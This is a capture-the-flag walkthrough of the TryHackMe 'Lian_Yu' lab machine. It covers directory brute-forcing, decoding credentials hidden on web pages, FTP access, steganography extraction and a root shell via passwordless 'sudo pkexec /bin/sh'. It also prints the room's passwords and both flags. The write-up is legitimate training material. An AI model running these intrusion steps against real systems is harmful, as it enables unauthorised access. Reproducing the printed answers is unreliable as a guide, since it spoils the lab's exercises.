# TryHackMe: Lian_Yu 
Room Link: https://tryhackme.com/room/lianyu

## 🔍 Task 1: Reconnaissance & Web Enumeration
We start by enumerating the target to discover running services and open ports.

**Nmap Scan**

```bash
nmap -sC -sV 10.49.131.252
```



**Nmap Results:**

* `21/tcp FTP (vsftpd 3.0.2)`
* `22/tcp SSH (OpenSSH 6.7p1)`
* `80/tcp HTTP (Apache httpd)`
* `111/tcp RPC (rpcbind)`

**Web Enumeration (Port 80)**

Visiting the web server on `port 80` :

```bash
http://10.49.131.252
```



* Website page displays an "ARROWVERSE" themed page describing Oliver Queen's backstory. There are no immediately interactive elements or obvious links, so we need to brute-force the directories.

We will use `gobuster` to find hidden directories :

```bash
gobuster dir -u http://10.49.131.252/ --wordlist /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```



* The scan reveals a hidden directory :

  ```bash
  /island
  ```

Navigating to :

```bash
http://10.49.131.252/island
```




* We found out the Code Word by highlighting the `page text` or `viewing the page source`.

  Code Word : 
  
  ```bash
  vigilante - (This is our FTP user)
  ```

Continue our enumeration, we run another `gobuster` scan, this time targeting the newly found `/island` directory.

```bash
gobuster dir -u http://10.49.131.252/island --wordlist /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```



* This exposes nested directories :

  ```bash
  /2100
  ```

Navigating to :

```bash
http://10.49.131.252/island/2100 -- (What is the Web Directory you found?)
```



* Shows a page containing an embedded YouTube video (which appears unavailable).



* Looking at the page source again reveals a files with a `.ticket extension`.

We run a final `gobuster` scan on the `/2100` directory, appending the `-x` flag to search for that specific extension.

```bash
gobuster dir -u http://10.49.131.252/island/2100 --wordlist /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .ticket
```



* The scan successfully locates a file named:

  ```bash
  green_arrow.ticket -- (what is the file name you found?)
  ```

Navigating to :

```bash
http://10.49.131.252/island/2100/green_arrow.ticket
```



* Opening this file in the browser reveals a token :

  ```bash
  RTy8yhBQdscX
  ```

The string is encoded in Base58. Using a tool like CyberChef :

```bash
https://gchq.github.io/CyberChef/
```

Use `FromBase58` to decode it.


* We uncover the password :

  ```bash
  !#th3h00d - This is the FTP Password. -- (what is the FTP Password?)
  ```

## 🔓 Task 2: FTP Access & Steganography

We now have a set of credentials:

```bash
# Username: vigilante (from the Code Word)
# Password: !#th3h00d (from the decoded ticket)
```

We use these to log into the FTP service running on port 21 :

```bash
ftp 10.49.131.252
```



* We have successfully logged in.

Once logged in, running :

```bash
ls -al
```



* We find 3 image files, download all of them :

  ```bash
  get Leave_me_alone.png
  get Queen's_Gambit.png
  get aa.jpg
  ```

  

While navigating the FTP server, checking the parent directory :

```bash
cd ..
```
```bash
ls -al
```



* Reveals the home directories of two users :

  ```bash
  vigilante
  slade
  ```

**Analyzing the Images & Fixing Magic Bytes**

Attempting to open the downloaded files locally yields mixed results :





* `aa.jpg` and `Queen's_Gambit.png` open perfectly, but `Leave_me_alone.png` throws an `"Unsupported image format"` error.

Running `exiftool` on `Leave_me_alone.png` :

```bash
exiftool Leave_me_alone.png
```



* Result show :

  ```bash
  File format error
  ```

This indicates the file's magic bytes (file signature) are likely corrupted. We open the file in a hex editor :

```bash
hexeditor Leave_me_alone.png
```





* The first few bytes read `58 45 6F AE`, which is incorrect.

We modify the incorrect bytes in the hex editor to the valid PNG signature `89 50 4E 47` and save the file :



After change the bytes to the correct one. We open the `Leave_me_alone.png`.



* The image now opens successfully, revealing an embedded word :

  ```bash
  password
  ```

Next, we investigate `aa.jpg`. Knowing that data can be hidden inside JPEG files, we use `steghide` to extract any concealed information.

```bash
steghide extract -sf aa.jpg
```

When prompted for a passphrase, we provide the word we extracted from the fixed PNG :

```bash
password
```



* This successfully extracts a hidden ZIP archive named :

  ```bash
  ss.zip
  ```

Unzipping `ss.zip` :

```bash
unzip ss.zip
```



* Reveal two files :

  ```bash
  passwd.txt
  ```
  ```bash
  shado --- (what is the file name with SSH password?)
  ```

Then we use command `cat` for read information inside the 2 file we get :

```bash
cat passwd.txt
```



* `passwd.txt` contains some flavor text about the island

```bash
cat shado
```



* `shado` reveals a string :
  
  ```bash
  M3tahuman - (ssh password)
  ```

## 💻 Task 3: SSH Access & Privilege Escalation

We now have a new password `M3tahuman` and we previously identified another user on the system named `slade`. We can use these credentials to SSH into the target.

```bash
ssh slade@10.49.131.252
```



* Using `M3tahuman` as the password grants us access to the system as `slade`.

Once inside, we check the directory contents :

```bash
ls -al
```



* We found `user.txt`.

Read `user.txt` :

```bash
cat user.txt
```



* We found Flag user.txt :

  ```bash
  THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
  ```

There is also a hidden file named `.Important` in the home directory. 

Reading it :

```bash
cat .Important
```



* The output reveals a hint : `"root Privileges ? try to find Secret_Mission"`.

To check for basic privilege escalation vectors, we look at the `sudo` permissions assigned to the user `slade` :

```bash
sudo -l
```



* The output reveals that `slade` is allowed to execute `/usr/bin/pkexec` as `root` without providing a password!

We can easily leverage this to spawn a root shell :

```bash
sudo pkexec /bin/sh
```

Running `whoami` and `id` to confirms that we have successfully escalated our privileges to `root`.



Check directory :

```bash
ls -al
```



* The output reveals `root.txt`.

Finally, we read the root flag located in the root directory :

```bash
cat root.txt
```



* We found Flag root.txt :

  ```bash
  THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
  ```
